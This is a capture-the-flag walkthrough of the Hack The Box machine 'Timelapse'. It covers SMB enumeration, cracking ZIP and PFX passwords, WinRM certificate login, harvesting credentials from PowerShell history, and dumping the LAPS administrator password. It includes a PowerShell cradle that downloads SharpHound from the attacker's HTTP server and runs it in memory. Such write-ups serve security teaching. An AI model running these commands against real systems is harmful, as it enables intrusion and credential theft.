


---
tags:
  - Windows
  - SMB
  - Guest access
  - PFX
  - Cracking
  - DACL Abuse
---

... is an easy HTB machine which offers a password-protected ZIP file in a `Guest`-access `SMB` share. It can be cracked to reveal a password-protected `PFX` file, which can also be cracked. It cannot be used for `Kerberos`, due to it being self-signed, but it can be used for `WinRM over HTTPS`. For the privilege escalation, credentials are stored in the `PowerShell` history to a user which is allowed to read `Administrator`'s password via `LAPS`.

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this:
```bash
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb, Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
5986/tcp open  ssl/wsmans?
| tls-alpn: 
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29time.
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```
As this output is quite verbose, i will break it down below:

- Port `139` and `445`: Usually both indicate `SMB`. Port `139` relies on legacy `NetBIOS` (support for older machines), port `445` is a newer version using `TCP/IP`. `SMB` is highly interesting for exploitation, as it allows access to files / printers over the network.
- Port `389` and `636`: Are used for `LDAP` and `LDAPS`. Are used in windows active-directory scenarios to authenticate users / authorize them to take certain actions.
- Port `5986`: Port for `WinRM` over `HTTPS`. Comparable to `ssh`, usually exclusive to Windows. Interesting if credentials are found.

As the `nmap` scan indicates, the domain name `timelapse.htb` and `dc01.timelapse.htb` (from `-sC` scan) are in use. That is why i edit my `/etc/hosts` file as follows for local `DNS` resolution:
```bash
echo "$IP timelapse.htb dc01.timelapse.htb" | sudo tee --append /etc/hosts
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# echo "...": writes the specified string into STDOUT (terminal)
# | : redirect (pipe) the STDOUT of the left command into the STDIN of the right command
# sudo tee --append /etc/hosts: write the received STDIN into a file without overwriting it. requires sudo, as that file is critical to the system  
```

As with any windows machine, i first try enumerating the `SMB` service using `netexec`. As `Null Auths` are allowed (known after scanning with `nxc smb timelapse.htb`), i can enumerate the shares with these credentials:
```bash
nxc smb timelapse.htb -u 'a' -p '' --shares
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: the username to use. can be anything, as it defaults to the user 'Guest', if the name is not found.
# -p: the password to use. empty here
# --shares: a flag which tells nxc to return a list of available shares.
```

The output of this command shows me the following shares:
```bash
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
IPC$            READ            Remote IPC
NETLOGON                        Logon server share 
Shares          READ            
SYSVOL                          Logon server share
```

The `Shares` share is a custom share offered on this service. As i have `READ` privileges over the `Shares`  share, i decide to enumerate it with `smbclient` for any interesting files:
```bash
smbclient -U 'a' -N //$IP/Shares
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -U: username to use. here, 'a' is used as it defaults to the guest account.
# -N: use no password. is optional, as you can leave the password empty if it asks for it.
```

That share has the following contents:

- `/Dev/`
	- `winrm_backup.zip`: Password protected archive.
- `/HelpDesk/`
	- `LAPS.x64.msi`: Installer file for `Windows Local Administrator Password Solution`.
	- `LAPS_Datasheet.docx`: Official document by Microsoft (by `Jiri Formacek`)
	- `LAPS_OperationsGuide.docx`: Official document by Microsoft (by `Jiri Formacek`)
	- `LAPS_TechnicalSpecification.docx`: Official document by Microsoft (by `Jiri Formacek`)

These files indicate that `LAPS` is in place, which manages and randomizes local administrator passwords to prevent `Pass-The-Hash` attacks, which will probably make privilege escalation harder.

### Initial Exploitation
My first guess was to use `BKCrack` to open the protected archive `winrm_backup.zip`, but after seeing that the content was only the file `legacyy_dev_auth.pfx` (not a publicly available file), which was compressed using the `Deflate` algorithm, it would not be feasible to attempt this attack

Instead, i hoped for a weak password which was included in the `rockyou.txt` word-list. To try each password against the archive, i combine the utilities of `zip2john` and `john`:
```bash
zip2john winrm_backup.zip > hash.txt
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# Creates a hash from the ZIP file which is crackable using john the ripper
```

```bash
john --wordlist=./rockyou.txt ./hash.txt
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# Attempts to crack the password of the hash using the specified wordlist
```

And it turns out that the password for this archive is `supremelegacy`. I used this to open the ZIP-file and i received the `legacyy_dev_auth.pfx`. This file is comparable to a `SSH private key`, which i can use to authenticate with. A `strings` command reveals that the username is `legacyy@timelapse.htb`. The following `certipy` (from `pip3 install certipy-ad`) command attempts to use this `.pfx` file to authenticate to the target:
```bash
certipy auth -pfx ./legacyy_dev_auth.pfx -username 'legacyy' -dc-ip $IP
```
This did not work though. It gave me the error message that the password or data is invalid.

I checked if `openssl` can read this file using the following command:
```bash
openssl pkcs12 -info -in legacyy_dev_auth.pfx
```
But it prompted me for a password and `supremelegacy` was not valid.

As the password used in the ZIP file was bad and found in `rockyou.txt`, i have hoped for the same case with this `.pfx` file. Luckily enough, the `john` suite also offers a tool to convert `pfx` files into hashes! The workflow is similar to cracking the ZIP file:
```bash
pfx2john ./legacyy_dev_auth.pfx > hash.txt
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# Creates a hash from the PFX file which is crackable using john the ripper
```

```bash
john --wordlist=./rockyou.txt ./hash.txt
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# Attempts to crack the password of the hash using the specified wordlist
```

Funnily enough, this password was also in the word-list, with it being `thuglegacy`.

Using that password, i am able to pass it into `certipy`'s authentication attempt using the `-password` parameter:
```bash
certipy auth -pfx ./legacyy_dev_auth.pfx -username 'legacyy' -password 'thuglegacy' -dc-ip $IP
```

Sadly, i got the `KDC_ERROR_CLIENT_NOT_TRUSTED` error. After investigating the `PFX` again using `openssl`, i noticed that it was self-signed, which is probably why it is being rejected.

One thing that stood out in the `nmap` scan was `WinRM`, as it usually gets hosted on port `5985` instead of `5986`. Further research showed that `WinRM over HTTPS` can use `certificate-based authentication`. That authentication does not use `Kerberos PKINIT` (failed with `certipy`). Maybe i am able to directly connect to `WinRM` using this `PFX` file!

To do so, i need the un-encrypted private key and the certificate from the `PFX` file. These two can be extracted using the following two `openssl` commands:
```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -nodes -out private.pem
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# extracts the private key from the PFX key
```

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out cert.pem
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# extracts the certificate from the PFX key
```

These two files can then be passed into `evil-winrm` to use for authentication (don't forget the `-S` flag to enable `SSL`!):
```bash
evil-winrm -i timelapse.htb -c cert.pem -k private.pem -S
```
This gave me a valid `WinRM` session for the user `legacyy`!

### Privilege Escalation
With windows machines, i always enumerate the current user's privileges using `whoami /all`, but the user `legacyy` did not have any interesting privileges. Next up, i try reading the `PowerShell history` file, as it may show recently used commands where clear-text passwords were passed as parameters:
```powershell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
And the output was interesting:
```powershell
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
This series of commands does the following:

1. `whoami`: Prints the current user.
2. `ipconfig /all`: Prints IP configuration and Ethernet adapters.
3. `netstat -ano`: Prints open port configuration and searches for `LIST`.
4. Store `PowerShell` options and the credentials `svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV` in environment variables for the following command.
5. Run `whoami` on `svc_deploy`'s `WinRM` session.
6. `ged-aduser`: Prints AD-users

Now i have the new credentials i can use to log into `WinRM` as the new user:
```bash
evil-winrm -i timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
```
But the `PowerShell` history is empty for this user and he does not have any elevated privileges in `whoami /all`.

As i now have `WinRM` access, i am able to run `SharpHound` to gather information about the `AD-Environment` to find out in `bloodhound` if `legacyy` or `svc_deploy` have any interesting `DACL` privileges. To do so, i fetch the binary from the official [SharpHound GitHub Releases](https://github.com/SpecterOps/SharpHound), and i serve these binaries in a `python3 -m http.server 1337` on my local machine.

Within the `WinRM` session of `svc_deploy`, i can issue the following `PowerShell` command to fetch and store the data from my endpoint:
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<my_IP>:1337/SharpHound.exe')
```
With it stored in the variable `$data`, i can load it into memory using this command:
```powershell
$assem = [System.Reflection.Assembly]::Load($data)
```
Doing so allows me to execute `SharpHound` using this `PowerShell` command:
```powershell
[Sharphound.Program]::Main(@("-d","timelapse.htb","-c","All","--OutputDirectory","C:\Users\svc_deploy","--ZipFileName","data.zip"))
```
This uses various `LDAP` queries to find out a ton of information about the `AD` environment using all collection methods, and stores it in the zip file `data.zip` located at `C:\Users\svc_deploy`. To get this file onto my local system, i can issue the `evil-winrm` command `download ..._data.zip ./data.zip`.

To analyze it, i start the `bloodhound GUI` using `bloodhound start`, and i upload the `data.zip`. In the `Explore` sessions i investigate the permissions of `svc_deploy` and `legacyy`. The permissions of `svc_deploy` show something interesting:


Apparently, that account is a member of the `LAPS_READERS` group, which is allowed to read the `LDAPS-Password`, which usually belongs to the local `Administrator`. Although, having read that password, an action must follow quickly, as `LAPS` may change the password again before being able to use it.

To query the `LAPS` password, i decided to use `netexec`, as it is my go-to tool for `smb` or `ldap` related things. It offers the module `laps` which dumps the `LAPS` password if the provided user is authorized to do so. The syntax looks like this:
```bash
nxc ldap timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -M laps
```
This gave me the password `0fN#1FiV79b8&p}VljMX3j#.`, which i can use to start a `WinRM` session as `Administrator`:
```bash
evil-winrm -i timelapse.htb -u 'Administrator' -p '0fN#1FiV79b8&p}VljMX3j#.' -S
```

### Summary

Below is a visualized summary of the exploitation steps used in this machine to gain RCE.



The privilege escalation to the user `Administrator` worked as follows:

